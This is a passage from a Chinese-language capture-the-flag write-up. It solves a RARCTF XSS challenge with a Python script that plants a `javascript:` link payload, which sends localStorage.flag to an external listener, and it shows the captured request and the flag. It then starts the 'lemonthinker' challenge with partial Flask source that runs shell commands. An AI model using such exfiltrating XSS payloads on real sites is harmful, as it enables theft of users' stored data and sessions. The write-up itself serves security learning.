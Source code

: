 很容易发现 admin 其实是直接点击了按钮，然后等了一下就关闭了页面。那么此时只需要对按钮进行 XSS 即可。使用 `javascript:alert(1)` 可以达成点击按钮后弹窗的效果。因此可以在 GET 参数 link 处进行 XSS 来尝试取出 localStorage.flag 然后发起一次对外的请求来获取 flag。构造出如下脚本来进行 XSS。

```python
session = requests.session()
host = "https://fbg.rars.win/"
data = session.get(host + "pow").json()
solution = solve(data['pref'], data['suff'], 5)
print(f"Solved POW: {solution} with prefix {data['pref']} suffix {data['suff']}")
session.post(host + "pow", json={"answer": solution})
name = ""
link = "javascript:window.location.replace('http://HOST/?flagis-'%252BlocalStorage.getItem('flag'))"
response = session.get(host + f"admin?title={name}&link={link}")
print(response.text)
```

运行脚本即可在端口监听处得到如下请求数据，从而可以得到 flag。

```http
GET /?flagis-rarctf{th0s3_f4ncy_butt0n5_w3r3_t00_cl1ck4bl3_f0r_u5_a4667cb69f} HTTP/1.1
Host: 8.136.8.210:3255
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/92.0.4515.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

```flag
rarctf{th0s3_f4ncy_butt0n5_w3r3_t00_cl1ck4bl3_f0r_u5_a4667cb69f}
```

#### lemonthinker

> generate your lemonthinks here!
>
> Note: All characters that look like a `O` are actually a `0`, please  try replacing all `O`'s with  `0`'s if you find that your flag does not work.

题目给出的源代码如下。

```python
from flask import Flask, request, redirect, url_for
import os
import random
import string
import time # lemonthink

clean = time.time()
app = Flask(__name__)
chars = list(string.ascii_letters + string.digits)

@app.route('/')
def main():
    return open("index.html").read()

@app.route('/generate', methods=['POST'])
def upload():
    global clean
    if time.time() - clean > 60:
      os.system("rm static/images/*")
      clean = time.time()
    text = request.form.getlist('text')[0]
    text = text.replace("\"", "")
```